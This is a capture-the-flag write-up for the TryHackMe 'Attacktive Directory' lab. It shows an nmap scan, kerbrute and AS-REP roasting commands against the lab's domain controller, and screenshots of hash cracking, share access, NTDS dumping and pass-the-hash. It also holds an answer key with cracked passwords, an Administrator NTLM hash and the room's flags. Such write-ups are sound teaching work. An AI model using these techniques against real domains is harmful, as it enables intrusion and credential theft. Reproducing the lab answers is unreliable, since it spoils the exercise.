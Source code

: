 ```yaml
---
description: Active Directory
---
```


# ATTACKTIVE DIRECTORY

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/bc3749c26ec24501a38957e7869a9de1.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-27 19:32:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-27T19:33:55+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-16T22:48:24
| Not valid after:  2021-03-18T22:48:24
| MD5:   dabe 7d5f 87d1 5ec6 a30a e736 1e37 0efc
|_SHA-1: 3747 b05a 96c8 92bf f443 0d51 bc70 a268 88b6 500c
|_ssl-date: 2020-12-27T19:34:03+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/27%OT=53%CT=1%CU=30626%PV=Y%DS=2%DC=T%G=Y%TM=5FE8E1
OS:AC%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%TS=U)OPS(O1=M505NW8NNS%O2=M50
OS:5NW8NNS%O3=M505NW8%O4=M505NW8NNS%O5=M505NW8NNS%O6=M505NNS)WIN(W1=FFFF%W2
OS:=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M505NW8
OS:NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(
OS:R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-27T19:33:55
|_  start_date: N/A

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   44.91 ms 10.9.0.1
2   45.02 ms 10.10.109.179
```

## PORT 88 KERBEROS ENUMERATION

### BRUTEFORCE WITH KERBRUTE

```text
kerbrute -users users.txt -domain spookysec.local -dc-ip 10.10.109.179
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/619d613276d84b148ea0cfc255648964.png)

### ASREPROAST

```text
impacket-GetNPUsers spookysec.local/ -usersfile roasting.txt -dc-ip 10.10.109.179
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/172217409aaa48be9f6d9c5ed6637855.png)

### DECRIPTING

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/6e4a663649a44f73b71d009e1a5cca2e.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/90bef727c91e4a8aba6430684e1bb318.png)

## SHARES ENUMERATION

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/734a30d7dc724748ab0a707e0d33e8ac.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/a0fa1d57a27d456c9046eb74387afa85.png)

## HASHDUMP

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/8bc2bf7408374ac78db589d0d78947e3.png)

## GETTIN SHELL

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e04dede3157246b685209be25863266d.png)

## ANSWERS

* What tool will allow us to enumerate port 139/445?

  ```text
  enum4linux
  ```

* What is the NetBIOS-Domain Name of the machine?

  ```text
  THM-AD
  ```

* What invalid TLD do people commonly use for their Active Directory Domain?

  ```text
  .local
  ```

* What command within Kerbrute will allow us to enumerate valid usernames?

  ```text
  userenum
  ```

* What notable account is discovered? \(These should jump out at you\)

  ```text
  svc-admin
  ```

* What is the other notable account is discovered? \(These should jump out at you\)

  ```text
  backup
  ```

* We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

  ```text
  svc-admin
  ```

* Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? \(Specify the full name\)

  ```text
  Kerberos 5 AS-REP etype 23
  ```

* What mode is the hash?

  ```text
  18200
  ```

* Now crack the hash with the modified password list provided, what is the user accounts password?

  ```text
  management2005
  ```

* Using utility can we map remote SMB shares?

  ```text
  smbclient
  ```

```text
- Which option will list shares?
-L
```

* How many remote shares is the server listing?

  ```text
  6
  ```

* There is one particular share that we have access to that contains a text file. Which share is it?

  ```text
  backup
  ```

* What is the content of the file?

  ```text
  YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
  ```

* Decoding the contents of the file, what is the full contents?

  ```text
  backup@spookysec.local:backup2517860
  ```

* What method allowed us to dump NTDS.DIT?

  ```text
  DRSUAPI
  ```

* What is the Administrators NTLM hash?

  ```text
  0e0363213e37b94221497260b0bcb4fc
  ```

* What method of attack could allow us to authenticate as the user without the password?

  ```text
  pass the hash
  ```

* Using a tool called Evil-WinRM what option will allow us to use a hash?

  ```text
  -H
  ```

* svc-admin

  ```text
  TryHackMe{K3rb3r0s_Pr3_4uth}
  ```

* backup

  ```text
  TryHackMe{B4ckM3UpSc0tty!}
  ```

* Administrator

  ```text
  TryHackMe{4ctiveD1rectoryM4st3r}
  ```
